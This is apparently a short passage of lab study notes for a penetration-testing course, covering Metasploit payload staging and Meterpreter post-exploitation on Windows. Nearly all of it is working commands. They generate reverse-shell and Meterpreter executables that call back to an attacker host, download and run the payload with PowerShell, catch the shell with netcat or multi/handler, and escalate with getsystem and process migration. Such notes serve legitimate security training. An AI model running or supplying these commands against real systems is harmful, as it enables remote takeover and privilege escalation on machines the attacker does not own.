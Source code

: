 ```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI_IP LPORT=443 -f exe -o staged.exe

nc -nvlp 443
```

```bash
iwr -uri http://$KALI_IP/staged.exe -Outfile staged.exe

.\staged.exe
```

msfconsole:

```bash
use multi/handler
set payload windows/x64/shell/reverse_tcp
show options
set ...
run
```

# Performing Post-Exploitation with Metasploit

## 20.3.1. Core Meterpreter Post-Exploitation Features

shell:

```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=KALI_IP LPORT=443 -f exe -o met.exe
```

msfconsole:

```bash
use multi/handler
set payload windows/x64/meterpreter_reverse_https
set LHOST tun0
set LPORT 443
run
```

shell:

```bash
nc $IP_TARGET 4444
```

msfconsole:

```bash
shell

whoami /priv
getuid
getsystem
getuid
ps
migrate 8052
ps
getuid
```
